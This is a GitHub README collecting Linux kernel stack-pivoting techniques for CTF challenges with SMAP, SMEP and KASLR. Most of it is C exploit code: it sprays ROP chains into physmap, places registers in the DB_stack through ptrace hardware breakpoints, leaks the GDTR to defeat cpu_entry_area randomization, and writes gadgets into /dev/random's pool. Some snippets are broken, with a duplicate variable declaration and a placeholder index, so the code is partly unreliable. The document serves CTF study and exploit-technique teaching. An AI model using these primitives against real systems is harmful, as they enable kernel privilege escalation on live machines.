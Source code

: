 # linux-kernel-stack-pivoting-trick
some tricks for linux kernel stack pivoting in CTF \[with smap|smep|kaslr\]

## direct mapping area [physmap]
- condition: leak physmap address
- exploit: mmap\[or other ways\] to spray rop chain
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char** argv, char** envp)
{
        // spray rop chain 0
        char buf[0x100000] = { 0 };
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }

        // spray rop chain 1
        char* buf = mmap(NULL, 0x100000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }
        getchar();

        return 0;
}
```
- example: [MINI-LCTF2022 kgadget](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir) by [@arttnba3](https://arttnba3.cn/about/) [with smap&&smep, but no kaslr]

## DB_stack [in per-cpu cpu_entry_area]
- condition: leak per-cpu cpu_entry_area after linux 6.2
- exploit: trigger hardware breakpoint to place rop chain in DB_stack
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <sys/ptrace.h>
#define DB_OFFSET(idx) ((void*)(&(((struct user*)0)->u_debugreg[idx])))
pid_t pid;
int status;
char buf[4];

void set_hbp(void *addr)
{
    if (ptrace(PTRACE_POKEUSER, pid, DB_OFFSET(0), addr) == -1)
    {
        printf("Failed to set dr_0\n");
        kill(pid, 9);
        exit(-1);
    }
    unsigned long dr_7 = (1<<0)|(1<<8)|(1<<16)|(1<<17)|(1<<18)|(1<<19);
    if (ptrace(PTRACE_POKEUSER, pid, DB_OFFSET(7), dr_7) == -1)
    {
        printf("Failed to set dr_7\n");
        kill(pid, 9);
        exit(-1);
    }
}

int main(int argc, char **argv, char **env)
{
    pid = fork();
    if (!pid)
    {
        cpu_set_t cpu_set;
        CPU_ZERO(&cpu_set);
        CPU_SET(0, &cpu_set);
        sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

        ptrace(PTRACE_TRACEME, 0, NULL, NULL);
        raise(SIGSTOP);
        // place rop chain
        __asm__(
        "mov r15,   0x11111111;"
        "mov r14,   0x22222222;"
        "mov r13,   0x33333333;"
        "mov r12,   0x44444444;"
        "mov rbp,   0x55555555;"
        "mov rbx,   0x66666666;"
        "mov r11,   0x77777777;"
        "mov r10,   0x88888888;"
        "mov r9,    0x99999999;"
        "mov r8,    0xaaaaaaaa;"
        "mov rax,   0xbbbbbbbb;"
        "mov rcx,   0xcccccccc;"
        "mov rdx,   0xdddddddd;"
        "mov rsi,   0xeeeeeeee;"
        "mov rdi,   0xffffffff;"
        );
        buf[0] = 0;
        exit(1);

    }
    waitpid(pid, &status, 0);
    set_hbp(buf);

    ptrace(PTRACE_CONT, pid, NULL, NULL);
    waitpid(pid, &status, 0);

    ptrace(PTRACE_CONT, pid, NULL, NULL);
    waitpid(pid, &status, 0);

    return 0;
}
```
- example: [SCTF2023 sycrop|moonpray](https://github.com/pray77/CVE-2023-3640) by [@pray77](https://github.com/pray77)
- bypass cea randomization \[in qemu\] [maybe just in CTF]:
  - [make cpu-entry-area great again](https://kqx.io/post/sp0/) - the trick raised by [@kqx](https://kqx.io/about/)
  - I know the trick in [wm_easyker && wm_easynetlink writeup](https://cnitlrt.github.io/wmctf2025/#wm_easyker) by [@cnitlrt](https://cnitlrt.github.io/about/)
  - same respect to [@TlmeT0B4d](https://github.com/TlmeT0B4d)
```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>

int main() {
        unsigned char gdtr[0x100] = {0};
        asm volatile ("sgdt %0" : "=m"(gdtr) );
        uint16_t limit = *(uint16_t*)(gdtr + 0);
        uint64_t base = 0;
        memcpy(&base, gdtr + 2, 8);
        printf("GDTR.limit = 0x%04x\n", limit);
        printf("GDTR.base  = 0x%016llx\n", (unsigned long long)base);
        return 0;
}
```

## a area after kernel data [maybe just in CTF]
- condition: leak kbase
- exploit: mmap\[or other ways\] to spray rop chain
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char** argv, char** envp)
{
        // spray rop chain 0
        char buf[0x100000] = { 0 };
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }

        // spray rop chain 1
        char* buf = mmap(NULL, 0x100000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }
        getchar();

        return 0;
}
```
- example: [WMCTF2025 wm_easyker](https://blog.xmcve.com/2025/09/22/WMCTF2025-Writeup/#title-5) by [@Polaris](https://www.xmcve.com/)

## &input_pool.hash.buf
- condition: leak kbase
- example:
  - https://github.com/google/security-research/blob/b8be9f3f78a45abf1da31795d66b38cb7ede79e2/pocs/linux/kernelctf/CVE-2025-21703_lts_2/docs/novel-techniques.md - the trick raised by [@u1f383](https://github.com/u1f383)
  - I know the trick in [wm_easyker && wm_easynetlink writeup](https://cnitlrt.github.io/wmctf2025/#wm_easyker) by [@cnitlrt](https://cnitlrt.github.io/about/)
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

#define WRITE_RANDOM_SIZE 0x100000ul
int main() {
    int random_fd = -1;
    unsigned long* random_data;
    random_fd = open("/dev/random", O_WRONLY);
    random_data = mmap(NULL, WRITE_RANDOM_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    memset(random_data, 'X', WRITE_RANDOM_SIZE);
    // place rop chain
    random_data[A magic offset - please debug + 0] = gadget0;
    random_data[A magic offset - please debug + 1] = gadget1;
    random_data[A magic offset - please debug + 2] = gadget2;
    write(random_fd, random_data, WRITE_RANDOM_SIZE);
}
```
